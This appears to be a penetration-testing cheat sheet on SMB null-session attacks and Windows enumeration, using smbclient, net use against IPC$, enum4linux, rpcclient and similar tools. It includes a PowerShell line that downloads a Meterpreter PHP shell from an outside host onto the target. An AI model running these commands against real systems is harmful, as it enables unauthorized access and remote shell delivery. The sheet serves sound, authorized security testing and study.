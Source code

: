 linux:
```bash

	smbclient -L <ip>
	smbclient \\\\<ip>\\<share>
	sudo mount.cifs //<ip>/C /media/K_share/ user=,pass=
	
```

> IPC$ = Inter-Process Communication - Can be used to leverage null session attacks

### Null Session
Rely on Common Internet File System (CIFS) and Server Message Block (SMB) API, that return information even to an unauthenticated user.
A malicious user can establish a connection to a Windows system without provinding any username or password. A connection must be established to the administrative share name IPC.

win:
```powershell
net use \\<ip>\IPC$ "" /u:""
```

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://10.90.60.80:5923/shell_meterpreter.php','C:\test.php')
```



### Tools
win:
```powershell
Winfingerprint = its GUI
winfo <ip> -n 
DumpSec > report > select computer > target ip
// report > dump Users as column
```

linux:
```bash
	enum4linux <ip>
	//mv polenum.py /usr/bin
	// install ldapscripts
	// -a = full scan

	rpcclient -N -U "" <ip>
	> enumdomusers
	> enumalsgroups
	> srvinfo
	> lookupnames
	> queryuser
	> enumprivs
```

#### sid2user.exe
```
sid2user.exe \\share <sid>
```
